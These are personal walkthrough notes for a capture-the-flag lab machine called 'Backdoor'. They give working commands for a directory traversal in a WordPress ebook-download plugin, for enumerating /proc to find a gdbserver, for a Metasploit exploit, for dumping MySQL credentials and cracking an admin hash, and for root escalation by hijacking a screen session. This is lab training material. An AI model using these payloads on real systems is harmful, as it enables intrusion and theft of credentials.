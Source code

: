 #LFI #/proc #screen
# nmap 

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-31 10:35 CDT
Nmap scan report for 10.129.96.68
Host is up (0.0025s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:de:43:38:46:57:db:4c:21:3b:69:f3:db:3c:62:88 (RSA)
|   256 aa:c9:fc:21:0f:3e:f4:ec:6b:35:70:26:22:53:ef:66 (ECDSA)
|_  256 d2:8b:e4:ec:07:61:aa:ca:f8:ec:1c:f8:8c:c1:f6:e1 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-generator: WordPress 5.8.1
|_http-title: Backdoor &#8211; Real-Life
|_http-server-header: Apache/2.4.41 (Ubuntu)
1337/tcp open  waste?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.47 seconds

```

# domain found on network logs on devtools backdoor.htb
![[Pasted image 20241031233855.png]]

# site uses wordpress 5.8.1

> scanned the site using wpscann

```shell
wpscan --url backdoor.htb
```

# unauthenticated user can access wp-content/uploads 
![[Pasted image 20241031235208.png]]

# ebook-download plugin found from /wp-content/plugins

> which has a CVE https://www.exploit-db.com/exploits/39575

# Enumerated /proc files to check for running processes, downloaded /proc/sched_debug

```shell
http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../proc/sched_debug
```


source: https://www.netspi.com/blog/technical-blog/web-application-pentesting/directory-traversal-file-inclusion-proc-file-system/


# Created a bash script that downloads processes on the /proc file /proc/n/cmdline

```shell
for i in {1..1000}; do curl http://backdoor.htb//wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/$i/cmdline -o $i; ; done
```

> cmdline is the equivalent of binPath in windows


# And a script that looks for process that runs on port 1337

```shell
 for i in $(find . -type f -size +90c); do cat $i | grep 1337; if [[ $? == "0" ]]; then echo "$i \n"; cat $i; fi  done

/proc/964/cmdline/proc/964/cmdline/proc/964/cmdline/bin/sh-cwhile true;do su user -c "cd /home/user;gdbserver --once 0.0.0.0:1337 /bin/true;"

```


# The exploit has a metasploit module /multi/gdb/gdb_server_exec 

> changed the payload and target to x64 architecture

![[Pasted image 20241101150434.png]]

# Tried using the mysql credentials found from wp-config.php

```shell
mysql -h localhost -u wordpressuser -pMQYBJSaD#DxG6qbm wordpress -e "show databases;"

mysql -h localhost -u wordpressuser -pMQYBJSaD#DxG6qbm  wordpress -e "select * from wp_users;"

# found admin credentials

ID	user_login	user_pass	user_nicename	user_email	user_url	user_registered	user_activation_key	user_status	display_name
1	admin	$P$Bt8c3ivanSGd2TFcm3HV/9ezXPueg5.	admin	admin@wordpress.com	http://backdoor.htb	2021-07-24 13:19:11		0	admin


```



# Password cracking
```shell
hashcat -m 400 -a 0 pass.txt /usr/share/wordlists/rockyou.txt 

```

>unable to crack password hash found from mysql



# Linpeas.sh results
```shell
root         962  0.0  0.0   2608  1652 ?        Ss   02:07   0:07      _ /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root ;; done

```

> root user created a screen session, screen command has the same functionality as tmux#

```shell
 screen -dmS root
```

> reattached the session using -r 

```shell
screen -r root/
```

